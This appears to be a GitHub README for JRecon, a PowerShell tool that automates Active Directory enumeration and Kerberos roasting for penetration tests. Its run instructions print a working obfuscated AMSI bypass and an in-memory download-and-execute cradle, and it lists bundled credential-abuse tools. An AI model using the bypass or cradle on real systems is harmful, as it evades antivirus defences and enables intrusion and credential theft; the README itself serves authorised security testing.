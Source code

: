 # JRecon
### A tool to automate Active Directory Enumeration
I've been working on this tool to automate a good part of the initial AD enumeration phase.

JRecon is not perfect, but it does it's job - while I can go grab a coffee

My advice is to run the tool within an empty working directory folder, and (if needed) re-run within the same folder. 

Why ? Because it uses some of the output it produces to perform other tasks.

No third-party tool is invoked from the internet, everything is embedded. Why ? Because we may have no access to internet or Github repositories during engagements, and tools may change syntax when updated which would brake JRecon. The only code that may change in time (creating some issues) is BloodHound collector, which I’ll try to keep updated.

JRecon will initially ask what tools you want to run. Why ? First of all to make sure you stay in scope, but also because it may not be the first time you run the tool. As a matter of fact, you may want to re-run some of the tasks as you move laterally within AD (e.g.: shares enumeration or BloodHound)

### What does the tool enumerate for ? Does it run any attack that I should be aware of ?

The only attacks it runs is Kerberoasting, ASREPRoasting, and URL File Attack. Everything else is just enumeration

JRecon will initially ask you if you want to download tools like Nessus, WinShareEnum, AdvIPScanner, HFS, VirtualBox, and Kali OS (these will actually be downloaded)

The tool enumerates for and performs (upon request):

•	AD objects and policies (subnets, computers, users, DCs, password policy and more)

•	Users Description field piping to file (excludes blank entries)

•	Creates a list of Servers

•	Creates a list of Hosts running Unsupported OS

•	Checks on Local Admins on the system

•	Checks if AV is installed

•	Checks for Local Admin Password Solution (LAPS)

•	Kerberoasting and ASREPRoasting

•	Checks for presence of Kerb Tickets in your local machine

•	Enumerates for Vulnerable GPOs

•	Checks for Misconfigured Certificate Templates

•	BloodHound collection

•	Checks for Exploitable Systems

•	Checks for LDAP Signing

•	Checks for Passwords in GPO (and decrypts them if it finds any)

•	Checks for Passwords in SYSVOL/Netlogon

•	Checks for Accessible shares (Read)

•	Checks for Writable shares (Write)

•	Asks you if you want to run a URL File Attack

### How to run ?

First bypass AMSI (example below)

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Set a variable to download your licensed version of PingCastle

(If you skip this step PingCastle Free Edition will be downloaded - Not for commercial use)

```
$jpingdownload = "<URL>"
```

You can set the variable "$jYesToAll" to "All" (before running the tool) to make it run without asking questions

This feature is probably best to use if you know the tool already, and you know it won't go out of scope

```
$jYesToAll = "All"
```

Finally, invoke and run the tool on memory (don't make it touch disk)

```
iex(new-object net.webclient).downloadstring('')
```

## JRecon is a collection of other scripts and tools

### Which tools are included?


**Rubeus**

Rubeus is a C# toolset for raw Kerberos interaction and abuses.

@Credit to: https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/
 

**Grouper3**

Find vulnerabilities in AD Group Policy, but do it better than Grouper2 did.

@Credit to: https://github.com/Group3r/Group3r
 

**Certify**

Active Directory certificate abuse. 

@Credit to: https://github.com/GhostPack/Certify


**LdapSignCheck**

C# project to check LDAP signing.

@Credit to: https://github.com/cube0x0/LdapSignCheck


**PingCastle** (Free Edition - **Not for commercial use**)

Get Active Directory Security at 80% in 20% of the time

@Credit to: https://github.com/vletoux/pingcastle


**SharpHound**

C# Data Collector for the BloodHound Project

@Credit to: https://github.com/BloodHoundAD/SharpHound


**ADRecon**

ADRecon is a tool which gathers information about the Active Directory

@Credit to: https://github.com/sense-of-security/ADRecon


**Invoke-Kerberoast**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1


**PowerView**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1


**Invoke-ShareFinder**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/functions/Invoke-ShareFinder.ps1


**AmsiScanBuffer bypass**

Author: Rasta Mouse (@_RastaMouse)

@Credit to: https://twitter.com/_RastaMouse


**Get-ExploitableSystems**

Author: Scott Sutherland (@_nullbind)

@Credit to: https://github.com/nullbind/Powershellery/blob/master/Stable-ish/ADS/Get-ExploitableSystems.psm1


**Get-GPPPassword**

Author: Chris Campbell (@obscuresec)

@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1


**PowerSharpPack**

Author: Fabian (@ShitSecure)

@Credit to: https://github.com/S3cur3Th1sSh1t/PowerSharpPack
